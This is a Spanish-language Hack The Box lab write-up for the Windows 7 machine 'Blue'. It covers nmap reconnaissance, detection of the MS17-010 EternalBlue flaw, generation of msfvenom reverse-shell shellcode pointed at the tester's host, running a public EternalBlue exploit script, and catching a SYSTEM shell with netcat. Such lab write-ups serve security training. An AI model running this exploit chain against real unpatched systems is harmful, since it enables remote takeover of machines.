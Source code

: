 ```yaml
---
title: Hack The Box Blue
author: k4miyo
date: 2021-10-30
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Windows]
tags: [Windows, Patch Management]
ping: true
---
```


## Blue
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.40.

```bash
❯ ping -c 1 10.10.10.40
PING 10.10.10.40 (10.10.10.40) 56(84) bytes of data.
64 bytes from 10.10.10.40: icmp_seq=1 ttl=127 time=144 ms

--- 10.10.10.40 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 144.246/144.246/144.246/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Windows. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.40 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-16 21:40 CDT
Initiating SYN Stealth Scan at 21:40
Scanning 10.10.10.40 [65535 ports]
Discovered open port 135/tcp on 10.10.10.40
Discovered open port 445/tcp on 10.10.10.40
Discovered open port 139/tcp on 10.10.10.40
Discovered open port 49152/tcp on 10.10.10.40
Discovered open port 49153/tcp on 10.10.10.40
Discovered open port 49157/tcp on 10.10.10.40
Discovered open port 49155/tcp on 10.10.10.40
Discovered open port 49156/tcp on 10.10.10.40
Discovered open port 49154/tcp on 10.10.10.40
Completed SYN Stealth Scan at 21:41, 30.60s elapsed (65535 total ports)
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.21s latency).
Scanned at 2021-09-16 21:40:49 CDT for 30s
Not shown: 63970 closed tcp ports (reset), 1556 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 30.98 seconds
           Raw packets sent: 150431 (6.619MB) | Rcvd: 75540 (3.022MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.40
   5   │     [*] Open ports: 135,139,445,49152,49153,49154,49155,49156,49157
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-16 21:42 CDT
Nmap scan report for 10.10.10.40
Host is up (0.14s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-09-17T02:48:03
|_  start_date: 2021-09-17T02:42:45
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-17T03:48:01+01:00
|_clock-skew: mean: -15m13s, deviation: 34m37s, median: 4m45s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.70 seconds
```

Observamos que se encuentra abierto el puerto 445 asociado al servicio de SMB; por lo que podríamos tirar un escaneo *"vuln and safe"* sobre `nmap` para determinar si puede ser vulnerable al **Eternal Blue**:

```bash
❯ nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbScan
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-16 21:46 CDT
Nmap scan report for 10.10.10.40
Host is up (0.14s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 4.46 seconds
```

De acuerdo con los resultados observados, vemos que es vulnerable al **ms17-010** y además sabemos que la máquina tiene *Windows 7 Professional 7601 Service Pack 1*; entonces ya sabemos que descargamos el exploit correspondiente.

[AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
Clonando en 'AutoBlue-MS17-010'...
remote: Enumerating objects: 126, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 126 (delta 40), reused 35 (delta 35), pack-reused 76
Recibiendo objetos: 100% (126/126), 94.22 KiB | 1015.00 KiB/s, listo.
Resolviendo deltas: 100% (74/74), listo.
```

Una vez descargado, ingresamos a la ruta `AutoBlue-MS17-010/shellcode` para generar el shellcode correspondiente mediante la ejecucion del archivo `shell_prep.sh` e ingresamos los datos que nos va solicitando:

```bash
❯ ./shell_prep.sh         
                 _.-;;-._ 
          '-..-'|   ||   |
          '-..-'|_.-;;-._|   
          '-..-'|   ||   |                                      
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz
                                
Compiling x64 kernel shellcode                                                                                                   
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y         
LHOST for reverse connection:                                   
10.10.14.2
LPORT you want x64 to listen on: 
443 
LPORT you want x86 to listen on:                                                                                                 
4443
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...                                                                                          
                                                                                                                                 
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin                                        

Generating x86 cmd shell (stageless)...                                                                                          
                                                                                                                                 
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=4443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin  
                                
MERGING SHELLCODE WOOOO!!!
DONE
```

Ahora dentro del directorio `AutoBlue-MS17-010/` ejecutamos el programa `eternalblue_exploit7.py` pasandole de argumentos la dirección IP víctima *10.10.10.40* y el shellcode `shellcode/sc_x64.bin`: 

```bash
❯ python2 eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

Al mismo tiempo, nos ponemos en escucha por el puerto 443 y esperamos que se establezca la conexión:

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

A este punto ya ingresamos a la máquina como **nt authority\\system** y podemos visualizar las flags (user.txt y root.txt).

